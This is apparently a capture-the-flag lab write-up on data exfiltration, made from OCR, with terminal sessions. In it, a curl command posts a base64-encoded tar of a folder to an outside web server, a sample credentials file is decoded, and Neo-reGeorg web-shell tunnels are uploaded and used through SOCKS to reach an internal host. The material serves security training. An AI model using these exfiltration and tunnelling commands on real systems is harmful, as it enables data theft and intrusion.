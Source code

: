 # Room Information

# Room Tasks

## Exfiltrate Using HTTP(S)

### 

```Bash
thm@web-thm:~$ ssh thm@192.168.0.100
thm@192.168.0.101's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content tha
t are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Sep  5 23:48:55 2023 from 192.168.0.133
To run a command as administrator (user "root"), use "sudo <command
>".
See "man sudo_root" for details.

thm@web-thm:~$ 
```

```Bash
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http:
//web.thm.com/contact.php
```

```Bash
thm@jump-box:~$ ssh thm@192.168.0.100
thm@192.168.0.100's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content tha
t are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Sep  5 21:53:12 2023 from 192.168.0.133
thm@web-thm:~$ 
```

```Bash
thm@web-thm:~$ ls /tmp
http.bs64
```

```Bash
thm@web-thm:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
task6/
task6/creds.txt
```

```Bash
thm@web-thm:~$ cat task6/creds.txt 
admin:password
Admin:123456
root:toor
```

```Bash
thm@web-thm:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64


### HTTP Tunneling

```Bash
root@ip-10-10-188-127# cd /opt/Neo-reGeorg
```

```Bash
root@ip-10-10-188-127:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm                                                                                                                                                                              


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/neoreg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
```

```Bash
root@ip-10-10-188-127:/opt/Neo-reGeorg# firefox http://10.10.83.6/uploader
```

![]()

![]()

![]()

```Bash
root@ip-10-10-188-127:/opt/Neo-reGeorg# python3 neoreg.py -k thm -uttp://10.10.83.6/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

+------------------------------------------------------------------------+
```

```Bash
curl --socks5 127.0.0.1:1080 http://172.20.0.120
<p><a href="/flag">Get Your Flag!</a></p>
```

```Bash
root@ip-10-10-188-127:~# curl --socks5 127.0.0.1:1080 http://172.20.0.120/flag
<p>Your flag: THM{H77p_7unn3l1n9_l1k3_l337}</p>
```

## Exfiltration Using ICMP

## Exfiltration Over DNS

